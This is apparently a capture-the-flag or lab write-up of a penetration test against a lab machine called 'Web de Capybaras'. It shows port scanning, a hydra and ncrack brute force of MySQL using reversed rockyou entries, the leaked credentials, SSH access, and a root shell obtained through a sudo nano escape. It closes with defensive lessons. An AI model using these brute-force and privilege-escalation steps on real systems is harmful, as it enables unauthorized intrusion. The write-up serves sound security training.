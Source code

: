 ______
## Table of Contents
1. [[#Introduction]]
2. [[#Information Gathering]]
   - [[#Initial Scanning]]
3. [[#Enumeration]]
   - [[#Service Enumeration]]
   - [[#Web Enumeration]]
4. [[#Exploitation]]
   - [[#MySQL Password Brute Force]]
   - [[#Database Access]]
5. [[#Privilege Escalation]]
   - [[#SSH Access]]
   - [[#Exploiting Sudo Nano Privileges]]
6. [[#Conclusion]]
## Introduction

This report documents the steps taken during a penetration test of a target machine with the IP address `172.17.0.2`. The goal of this test was to identify vulnerabilities and exploit them to gain root access.

## Information Gathering

### Initial Scanning

We begin with a comprehensive port scan to identify open ports and running services on the target machine.

#### Full Port Scan

```bash
sudo nmap -p- --open -sS --min-rate 5000 -n -Pn $IP | grep -oP '\d+(?=/tcp)' | paste -sd ',' -
```

- `-p-`: Scan all 65535 ports.
- `--open`: Show only open ports.
- `-sS`: Conduct a stealth SYN scan.
- `--min-rate 5000`: Set a minimum rate of 5000 packets per second.
- `-n`: Disable DNS resolution.
- `-Pn`: Treat all hosts as online, skip host discovery.

**Open Ports Identified:**

```yaml
22, 80, 3306
```

### Service Enumeration

To gain further insights into the services running on the open ports, we perform a service version scan.

```bash
nmap -sCV $IP -oN nmap -Pn -p22,80,3306
```

- `-sCV`: Perform service version detection and default scripts.
- `-oN`: Output results to a file named `nmap`.
- `-Pn`: Treat all hosts as online.

**Nmap Results:**

```less
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-19 07:24 EDT
Nmap scan report for 172.17.0.2
Host is up (0.00052s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9e:6a:3f:89:de:9d:05:d9:94:32:73:8d:31:e0:a5:eb (ECDSA)
|_  256 e7:ef:4f:4a:25:86:c9:55:b0:88:0a:8c:79:03:d0:9f (ED25519)
80/tcp   open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Web de Capybaras
|_http-server-header: Apache/2.4.52 (Ubuntu)
3306/tcp open  mysql   MySQL 5.5.5-10.6.16-MariaDB-0ubuntu0.22.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.6.16-MariaDB-0ubuntu0.22.04.1
|   Thread ID: 36
|   Capabilities flags: 63486
|   Some Capabilities: ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, Speaks41ProtocolNew, DontAllowDatabaseTableColumn, LongColumnFlag, Speaks41ProtocolOld, ODBCClient, FoundRows, IgnoreSigpipes, InteractiveClient, Support41Auth, SupportsCompression, SupportsTransactions, SupportsLoadDataLocal, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: lkS<qFK&wJIpx*b5!Bga
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### Web Enumeration

We identify that port 80 is running an Apache web server. Using `whatweb`, we gather additional information about the web service.

```bash
whatweb http://$IP
```

```txt
http://172.17.0.2 [200 OK] Apache[2.4.52], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[172.17.0.2], Title[Web de Capybaras]
```

While browsing the web application, we discover a user leak and a potential hint in the source code.

**User Leak:** `capybarauser`

**Hint in Source Code:**

```html
<p>He securizado mi password, ya no se encuentra al comienzo del rockyou..., espero que nadie use el comando tac y se fije en las últimas passwords del rockyou</p>
```

This translates to "I have secured my password, it is no longer at the beginning of rockyou..., I hope no one uses the tac command and looks at the last passwords of rockyou."

## Exploitation

### MySQL Password Brute Force

Given the hint, we use the `tac` command to reverse the `rockyou.txt` password list and attempt to brute force the MySQL login.

```bash
tac /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt | head -n 10 | tr -cd '\\11\\12\\15\\40-\\176' | sed 's/^[[:space:]]*//;s/[[:space:]]*$//' | sed '/^$/d' | sed 's/[[:space:]]\\+/ /g' > passwords.txt
```

- Reverses the order of lines in the `rockyou.txt` file.
- Takes the last 10 lines from this reversed order.
- Cleans up the lines by:
    - Removing non-printable and non-ASCII characters.
    - Trimming leading and trailing whitespace.
    - Removing empty lines.
    - Collapsing multiple spaces into a single space.
- Saves the cleaned-up output to `passwords.txt`.

We then use tools like `hydra` and `ncrack` to brute force the MySQL credentials.

```bash
hydra -l capybarauser -P passwords.txt mysql://$IP
```

```bash
ncrack -u capybarauser -P passwords.txt mysql://$IP
```

Credentials found:

- **Username:** capybarauser
- **Password:** ie168

### Database Access

Using the obtained credentials, we access the MySQL database.

```bash
mysql -u capybarauser -h $IP -p
```

```sql
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| pinguinasio_db     |
| sys                |
+--------------------+
5 rows in set (0.001 sec)

MariaDB [(none)]> use pinguinasio_db;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [pinguinasio_db]> show tables;
+--------------------------+
| Tables_in_pinguinasio_db |
+--------------------------+
| users                    |
+--------------------------+
1 row in set (0.001 sec)

MariaDB [pinguinasio_db]> select * from users;
+----+-------+------------------+
| id | user  | password         |
+----+-------+------------------+
|  1 | mario | pinguinomolon123 |
+----+-------+------------------+
```

## Privilege-Escalation

### SSH Access

With the newly discovered credentials, we gain SSH access as the user `mario`.

```bash
ssh mario@$IP
```

### Exploiting Sudo Nano Privileges

Checking the sudo privileges reveals that `mario` can run `nano` with elevated privileges without a password.

```bash
sudo -l
User mario may run the following commands on 422e457f179c:
    (ALL : ALL) NOPASSWD: /usr/bin/nano
```

Using `nano`, we exploit this to gain a root shell.

```bash
sudo nano ^R^X reset; bash 1>&0 2>&0
```

![[Pasted image 20240619142353.png]]

## Conclusion

During this penetration test, we successfully identified and exploited multiple vulnerabilities that allowed us to escalate our privileges from a low-privileged user to root access. Key findings included:

- User enumeration and password hints in web application source code.
- Weak MySQL credentials.
- Misconfigured sudo permissions allowing privilege escalation.

These findings highlight the importance of securing web application source code, using strong and unique passwords, and correctly configuring user permissions.